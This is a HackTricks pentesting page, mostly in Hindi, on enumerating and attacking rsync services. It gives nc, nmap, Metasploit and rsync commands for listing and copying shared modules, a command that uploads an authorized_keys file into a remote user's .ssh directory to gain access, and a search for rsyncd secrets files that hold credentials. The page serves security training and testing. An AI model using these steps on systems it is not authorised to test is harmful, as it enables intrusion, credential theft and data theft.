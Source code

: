 # 873 - Pentesting Rsync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## **Basic Information**

From [wikipedia](https://en.wikipedia.org/wiki/Rsync):

> **rsync** एक उपयोगिता है जो कुशलता से [transferring](https://en.wikipedia.org/wiki/File\_transfer) और [synchronizing](https://en.wikipedia.org/wiki/File\_synchronization) [files](https://en.wikipedia.org/wiki/Computer\_file) को एक कंप्यूटर और एक बाहरी हार्ड ड्राइव के बीच और [networked](https://en.wikipedia.org/wiki/Computer\_network) [computers](https://en.wikipedia.org/wiki/Computer) के बीच फ़ाइलों के [modification times](https://en.wikipedia.org/wiki/Timestamping\_\(computing\)) और आकारों की तुलना करके करता है।[\[3\]](https://en.wikipedia.org/wiki/Rsync#cite\_note-man\_page-3) यह सामान्यतः [Unix-like](https://en.wikipedia.org/wiki/Unix-like) [operating systems](https://en.wikipedia.org/wiki/Operating\_system) पर पाया जाता है। rsync एल्गोरिदम एक प्रकार का [delta encoding](https://en.wikipedia.org/wiki/Delta\_encoding) है, और इसका उपयोग नेटवर्क उपयोग को कम करने के लिए किया जाता है। [Zlib](https://en.wikipedia.org/wiki/Zlib) अतिरिक्त [data compression](https://en.wikipedia.org/wiki/Data\_compression) के लिए उपयोग किया जा सकता है,[\[3\]](https://en.wikipedia.org/wiki/Rsync#cite\_note-man\_page-3) और [SSH](https://en.wikipedia.org/wiki/Secure\_Shell) या [stunnel](https://en.wikipedia.org/wiki/Stunnel) सुरक्षा के लिए उपयोग किया जा सकता है।

**Default port:** 873
```
PORT    STATE SERVICE REASON
873/tcp open  rsync   syn-ack
```
## Enumeration

### बैनर और मैनुअल संचार
```bash
nc -vn 127.0.0.1 873
(UNKNOWN) [127.0.0.1] 873 (rsync) open
@RSYNCD: 31.0        <--- You receive this banner with the version from the server
@RSYNCD: 31.0        <--- Then you send the same info
#list                <--- Then you ask the sever to list
raidroot             <--- The server starts enumerating
USBCopy
NAS_Public
_NAS_Recycle_TOSRAID	<--- Enumeration finished
@RSYNCD: EXIT         <--- Sever closes the connection


#Now lets try to enumerate "raidroot"
nc -vn 127.0.0.1 873
(UNKNOWN) [127.0.0.1] 873 (rsync) open
@RSYNCD: 31.0
@RSYNCD: 31.0
raidroot
@RSYNCD: AUTHREQD 7H6CqsHCPG06kRiFkKwD8g    <--- This means you need the password
```
### **साझा फ़ोल्डरों की गणना करना**

**Rsync मॉड्यूल** को **निर्देशिका साझा** के रूप में पहचाना जाता है जो **पासवर्ड से सुरक्षित** हो सकते हैं। उपलब्ध मॉड्यूल की पहचान करने और यह जांचने के लिए कि क्या उन्हें पासवर्ड की आवश्यकता है, निम्नलिखित कमांड का उपयोग किया जाता है:
```bash
nmap -sV --script "rsync-list-modules" -p <PORT> <IP>
msf> use auxiliary/scanner/rsync/modules_list

# Example with IPv6 and alternate port
rsync -av --list-only rsync://[dead:beef::250:56ff:feb9:e90a]:8730
```
ध्यान दें कि कुछ शेयर सूची में नहीं दिखाई दे सकते हैं, संभवतः उन्हें छिपा दिया गया है। इसके अतिरिक्त, कुछ शेयरों तक पहुँच विशेष **credentials** तक सीमित हो सकती है, जिसे **"Access Denied"** संदेश द्वारा दर्शाया गया है।

### [**Brute Force**](../generic-methodologies-and-resources/brute-force.md#rsync)

### मैनुअल Rsync उपयोग

**module list** प्राप्त करने के बाद, क्रियाएँ इस पर निर्भर करती हैं कि क्या प्रमाणीकरण की आवश्यकता है। प्रमाणीकरण के बिना, एक साझा फ़ोल्डर से स्थानीय निर्देशिका में फ़ाइलों को **listing** और **copying** करना संभव है:
```bash
# Listing a shared folder
rsync -av --list-only rsync://192.168.0.123/shared_name

# Copying files from a shared folder
rsync -av rsync://192.168.0.123:8730/shared_name ./rsyn_shared
```
यह प्रक्रिया **पुनरावृत्त रूप से फ़ाइलों को स्थानांतरित करती है**, उनके गुण और अनुमतियों को बनाए रखते हुए।

**क्रेडेंशियल्स** के साथ, एक साझा फ़ोल्डर से सूचीबद्ध करना और डाउनलोड करना निम्नलिखित तरीके से किया जा सकता है, जहाँ एक पासवर्ड प्रॉम्प्ट दिखाई देगा:
```bash
rsync -av --list-only rsync://username@192.168.0.123/shared_name
rsync -av rsync://username@192.168.0.123:8730/shared_name ./rsyn_shared
```
To **upload content**, such as an _**authorized_keys**_ फ़ाइल के लिए एक्सेस, उपयोग करें:
```bash
rsync -av home_user/.ssh/ rsync://username@192.168.0.123/home_user/.ssh
```
## POST

rsyncd कॉन्फ़िगरेशन फ़ाइल को खोजने के लिए, निष्पादित करें:
```bash
find /etc \( -name rsyncd.conf -o -name rsyncd.secrets \)
```
इस फ़ाइल के भीतर, एक _secrets file_ पैरामीटर एक फ़ाइल की ओर इशारा कर सकता है जिसमें **उपयोगकर्ता नाम और पासवर्ड** rsyncd प्रमाणीकरण के लिए होते हैं।

## संदर्भ
* [https://www.smeegesec.com/2016/12/pentesting-rsync.html](https://www.smeegesec.com/2016/12/pentesting-rsync.html)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
